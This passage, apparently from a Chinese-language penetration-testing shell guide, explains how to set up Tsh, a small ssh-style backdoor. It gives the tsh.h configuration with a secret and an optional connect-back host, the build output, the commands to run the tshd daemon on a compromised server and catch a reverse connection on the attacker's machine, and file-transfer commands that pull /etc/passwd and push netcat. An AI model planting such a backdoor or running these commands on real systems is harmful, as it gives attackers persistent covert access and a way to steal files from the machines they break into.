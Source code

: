 将所需的尺寸应用到你的 socat 终端：

```sh
stty rows 57 cols 211
```

### Tsh

[Tsh](https://github.com/creaktive/tsh) 是一个小型的 ssh 式后门，带有完整的 pty 终端，并具有文件传输能力。这个工具的占用空间非常小，并且很容易在大多数类 Unix 系统上编译。从编辑 tsh.h 文件开始：

```c
#ifndef _TSH_H
#define _TSH_H

char *secret = "never say never say die";

#define SERVER_PORT 22
short int server_port = SERVER_PORT;
/*
#define CONNECT_BACK_HOST  "localhost"
#define CONNECT_BACK_DELAY 30
*/
#define GET_FILE 1
#define PUT_FILE 2
#define RUNSHELL 3

#endif /* tsh.h */
```

更改 `secret`，指定 `SERVER_PORT`。如果你想反向连接，取消注释并编辑 `CONNECT_BACK_HOST` 和 `CONNECT_BACK_DELAY` 指令。运行 make：

```makefile
$ make linux_x64
make								\
	LDFLAGS=" -Xlinker --no-as-needed -lutil"	\
	DEFS=" -DLINUX"					\
	tsh tshd
make[1]: Entering directory '/tmp/tsh'
gcc -O3 -W -Wall -DLINUX -c pel.c
gcc -O3 -W -Wall -DLINUX -c aes.c
gcc -O3 -W -Wall -DLINUX -c sha1.c
gcc -O3 -W -Wall -DLINUX -c tsh.c
gcc -Xlinker --no-as-needed -lutil -o tsh pel.o aes.o sha1.o tsh.o
strip tsh
gcc -O3 -W -Wall -DLINUX -c tshd.c
gcc -Xlinker --no-as-needed -lutil -o tshd pel.o aes.o sha1.o tshd.o
strip tshd
make[1]: Leaving directory '/tmp/tsh'
```

现在在服务器上运行 `./tshd`。它将开始监听指定的端口。您可以通过执行以下命令连接到它：

```sh
./tsh host_ip
```

如果 tsh 被编译有反向连接功能，`tshd` 守护进程将尝试连接回攻击者的机器。在攻击者侧启动监听：

```sh
$ ./tsh cb
Waiting for the server to connect...
```

用 tsh 传输文件：

```sh
./tsh host_ip get /etc/passwd .
./tsh host_ip put /bin/netcat /tmp
```
